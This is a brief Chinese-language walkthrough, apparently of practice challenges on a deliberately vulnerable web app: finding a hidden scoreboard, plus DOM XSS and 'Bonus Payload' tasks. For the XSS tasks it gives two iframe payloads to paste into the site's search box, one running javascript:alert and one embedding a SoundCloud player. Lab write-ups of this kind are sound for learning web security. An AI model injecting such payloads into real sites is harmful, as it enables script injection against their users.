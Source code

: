 ![scoreboard](./image/scoreboard.png)  
tips:正式解决方式是不是应该在源代码里查找哇(前端代码实在不熟，真的在代码里翻了好久  
![源代码里查找](./image/检查元素.png)  

##### XSS  

* DOM XSS  
根据提示把```<iframe src="javascript:alert(`xss`)">```输入到搜索框  
![DOM XSS](./image/domxss.png)  
* Bonus Payload  
同理将```<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>```输入到搜索框  
